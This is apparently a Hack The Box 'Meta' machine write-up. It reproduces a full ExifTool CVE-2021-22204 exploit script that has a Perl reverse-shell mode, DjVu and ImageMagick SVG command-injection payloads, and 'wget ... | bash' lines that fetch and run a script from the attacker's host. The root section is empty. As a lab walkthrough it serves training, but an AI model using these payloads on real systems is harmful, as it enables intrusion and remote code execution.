



<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.140 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-16 19:19 CET
Nmap scan report for 10.10.11.140
Host is up (0.042s latency).
Not shown: 65219 closed tcp ports (reset), 314 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.09 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 80` -> http

<br />

# Http Enumeration: -> Port 80

<br />

When we try to list the `website`, it `redirects` to the following `domain`:

- `artcorp.htb` 

So we proceed to `add` it to our `/etc/hosts`:

<br />

```bash
echo "10.10.11.140 artcorp.htb >> /etc/hosts"
```

<br />

Once this is done, we `reload` the `website` and we see that it is very `static`, not at all `interesting`:

<br />


<br />

When there is nothing `interesting` on the main `website` it is `advisable` to `fuzz` to find a `subdomain`, so we do it and surprise:

<br />

```bash
❯ ffuf -u http://artcorp.htb -H "Host: FUZZ.artcorp.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 20  -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://artcorp.htb
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.artcorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

dev01                   [Status: 200, Size: 247, Words: 16, Lines: 10, Duration: 599ms]
:: Progress: [4989/4989] :: Job [1/1] :: 507 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

<br />

We have a new `subdomain`, let's `add` it to `/etc/hosts`:

<br />

```bash
10.10.11.140 artcorp.htb dev01.artcorp.htb
```

<br />

`Load` the new `subdomain` and it seems to bee a `website` for `testing` tools that are in the `development` phase:

<br />


<br />

Click on `metaview` as it is the only `tool` available:

<br />



<br />

Apparently, it is a `tool` that allows us to upload `images` and `analyze` their `metadata`, let's `test` it by uploading a `random` image:

<br />



<br />

When we see the `output` of the `tool`, it looks pretty `familiar`, doesn't it? This is because the `application` is using the well-known `"exiftool"` tool every time we `upload` an image to `analyze` the `metadata`.

<br />

## Exiftool Arbitrary Code Execution:

<br />

So seeing this, we proceed to `look` for `vulnerabilities` and discover the following:

<br />

```bash
❯ searchsploit exiftool
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
ExifTool 12.23 - Arbitrary Code Execution                                                                                                             | linux/local/50911.py
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

<br />

`Exiftool` versions from `7.44` to `12.23` are `vulnerable` to an Arbitrary Code Execution.

We don't know what `version` the `exiftool` runs from the `website`, but it's the `only` vulnerability it seems to have, so let's `test` it.

First of all, we `bring` the `script` and `analyze` its code:

<br />

```python
# Exploit Title: ExifTool 12.23 - Arbitrary Code Execution
# Date: 04/30/2022
# Exploit Author: UNICORD (NicPWNs & Dev-Yeoj)
# Vendor Homepage: https://exiftool.org/
# Software Link: https://github.com/exiftool/exiftool/archive/refs/tags/12.23.zip
# Version: 7.44-12.23
# Tested on: ExifTool 12.23 (Debian)
# CVE: CVE-2021-22204
# Source: https://github.com/UNICORDev/exploit-CVE-2021-22204
# Description: Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image

#!/usr/bin/env python3

# Imports
import base64
import os
import subprocess
import sys

# Class for colors
class color:
    red = '\033[91m'
    gold = '\033[93m'
    blue = '\033[36m'
    green = '\033[92m'
    no = '\033[0m'

# Print UNICORD ASCII Art
def UNICORD_ASCII():
    print(rf"""
{color.red}        _ __,~~~{color.gold}/{color.red}_{color.no}        {color.blue}__  ___  _______________  ___  ___{color.no}
{color.red}    ,~~`( )_( )-\|       {color.blue}/ / / / |/ /  _/ ___/ __ \/ _ \/ _ \{color.no}
{color.red}        |/|  `--.       {color.blue}/ /_/ /    // // /__/ /_/ / , _/ // /{color.no}
{color.green}_V__v___{color.red}!{color.green}_{color.red}!{color.green}__{color.red}!{color.green}_____V____{color.blue}\____/_/|_/___/\___/\____/_/|_/____/{color.green}....{color.no}
    """)

# Print exploit help menu
def help():
    print(r"""UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.
""")

# Run the exploit
def exploit(command):

    UNICORD_ASCII()

    # Create perl payload
    payload = "(metadata \"\c${"
    payload += command
    payload += "};\")"

    print(f"{color.red}RUNNING: {color.blue}UNICORD Exploit for CVE-2021-22204{color.no}")
    print(f"{color.red}PAYLOAD: {color.gold}" + payload + f"{color.no}")

    # Write payload to file
    payloadFile = open('payload','w')
    payloadFile.write(payload)
    payloadFile.close()

    # Bzz compress file
    subprocess.run(['bzz', 'payload', 'payload.bzz'])

    # Run djvumake
    subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])

    if '-i' in sys.argv:
        imagePath = sys.argv[sys.argv.index('-i') + 1]
        subprocess.run(['cp',f'{imagePath}','./image.jpg','-n'])

    else:
        # Smallest possible JPEG
        image = b"/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k="

        # Write smallest possible JPEG image to file
        with open("image.jpg", "wb") as img:
            img.write(base64.decodebytes(image))

    # Write exiftool config to file
    config = (r"""
    %Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
    );
    1; #end
    """)
    configFile = open('exiftool.config','w')
    configFile.write(config)
    configFile.close()

    # Exiftool config for output image
    subprocess.run(['exiftool','-config','exiftool.config','-HasselbladExif<=exploit.djvu','image.jpg','-overwrite_original_in_place','-q'])

    # Delete leftover files
    os.remove("payload")
    os.remove("payload.bzz")
    os.remove("exploit.djvu")
    os.remove("exiftool.config")

    # Print results
    print(f"{color.red}RUNTIME: {color.green}DONE - Exploit image written to 'image.jpg'{color.no}\n")

    exit()

if __name__ == "__main__":

    args = ['-h','-c','-s','-i']

    if args[0] in sys.argv:
        help()

    elif args[1] in sys.argv and not args[2] in sys.argv:
        exec = sys.argv[sys.argv.index(args[1]) + 1]
        command = f"system(\'{exec}\')"
        exploit(command)

    elif args[2] in sys.argv and not args[1] in sys.argv:
        localIP = sys.argv[sys.argv.index(args[2]) + 1]
        localPort = sys.argv[sys.argv.index(args[2]) + 2]
        command = f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({localPort},inet_aton('{localIP}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};"
        exploit(command)

    else:
        help()
```

<br />

Basically, what this exploit does is `generate` a malicious `DjVu` file with bzz and then `prepare` a `jpeg` image with this file `embedded` in its `metadata` that `contains` a malicious `command` that will be `executed` when `exiftool` analyzes the `image`.

Now that we `know` more or less what it `does`, let's exploit it `manually`!

1.- `Create` a file named `"payload"` with this `content`:

<br />

```bash
(metadata "\c${system('id')};")
```

<br />

2.- `Compressed` the `file` with `bzz` to make it `compatible` with `DjVu`:

<br />

```bash
bzz payload payload.bzz
```

<br />

3.- `Create` the `DjVu` malicious `file`:

<br />

```bash
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

<br />

4.- Create a `configfile` with the following `content` to `convert` DjVu file to a `jpeg`:

<br />

```bash
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```

<br />

5.- `Inyect` the malicious `file` into the `metadata` of a random `image`:

<br />

```bash
exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg
```

<br />

5.- `Upload` the `image` to the website:

<br />



<br />

Yesss!! We're `able` to run `commands`. Now we can try to gain `access` to the `victim machine`.

On this machine no `reverse shell` works and it does `not` have `curl` installed, so we will have to `gain` access in a rather `curious` way `using` the `wget` binary.

To do so, we `repeat` all the previous `proccess` but with the only `difference` that we will be `using` the following `payload`:

<br />

```bash
(metadata "\c${system('wget -qO- http://10.10.14.19/index.html | bash')};")
```

<br />

Command Flags:

-`q` -> Mute the program's output.

-`O` -> Redirect stdout instead of downloading the content.

-`| bash` -> Interpret the bash code.

<br />

Once we have our new `malicious` image, we `start` a `listener` and `upload` image to the website:

<br />

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.140] 56992
bash: cannot set terminal process group (647): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br />

Perfect! We have a `session` as `www-data`!

<br />

# Privilege Escalation: www-data -> thomas

<br />

Once in we go to the `thomas` directory to `read` the `user.txt` flag, but we dont have `permissions` to do it:

<br />

```bash
www-data@meta:/home/thomas$ ls
user.txt
www-data@meta:/home/thomas$ cat user.txt 
cat: user.txt: Permission denied
```

<br />

Enumerating we found something with `pspy`, the user `thomas` is `executing` the following `task` at time `intervals` on the `system`:

<br />

```bash
www-data@meta:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done 

2025/03/02 11:47:01 CMD: UID=1000  PID=1545   | /bin/bash /usr/local/bin/convert_images.sh
```

<br />

Let's `see` what the `script` is doing:

<br />

```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

<br />

As we can see, it is `running` the binary `mogrify` into the `dev01` directory over all the `png` images.

If we check this `binary` more deep, it is pointing to `imagemagick`, a tool to `manipulate` and convert `images`:

<br />

```bash
www-data@meta:/tmp$ ls -l /usr/local/bin/mogrify 
lrwxrwxrwx 1 root root 6 Aug 29  2021 /usr/local/bin/mogrify -> magick
```

<br />

Throughout its `history`, this `tool` has had several `vulnerabilities`, so let's `check` its `version` to see if it is `vulnerable`:

<br />

```bash
www-data@meta:/tmp$ magick -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

<br />

The `version` in use is the `ImageMagick 7.0.10-36` one.

<br />

## Mogrify Command Injection:

<br />

Doing a `great` job of `searching` we found a [post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) that tells us how we can `exploit` this `version` of `ImageMagick`.

The `author` explains how we can `inject` commands into a `SVG MSL Polylot File` like this:

<br />

```SVG
<image authenticate='ff" `id > /dev/shm/id.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

<br />

In this 0`POC`, the `"id"` command is being `injected` at the same time that the `stdout` is `stored` in a file called `"id.txt"` in the `/dev/shm` path.

Let's `copy` it to the `dev` images path and `check` it what happen!

<br />

```bash
cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

<br />

After a few `seconds`, we check if the `file` has been `created` and if!! We have `injected` a `command` like user `thomas`!!

<br />

```bash
www-data@meta:/tmp$ ls -l /dev/shm/
total 4
-rw-r--r-- 1 thomas thomas 54 Mar  2 12:40 id.txt
www-data@meta:/tmp$ cat /dev/shm/id.txt 
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

<br />

Now that we have the `capacity` to `execute` commands as `thomas`, we can try to get a `shell`.

To do it, we are going to `use` the same `command` as in the instrusion, the `wget` one.

<br />

```SVG
<image authenticate='ff" `wget -qO- http://10.10.14.22/index.html | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

<br />

We copy again the `POC` into the `dev` directory and start a `listener` to receive the `shell`:

<br />

```bash
❯ sudo nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.140] 44830
bash: cannot set terminal process group (2940): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ id
id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ 
```

<br />

# Privilege Escalation: thomas -> root 

<br />


<br />
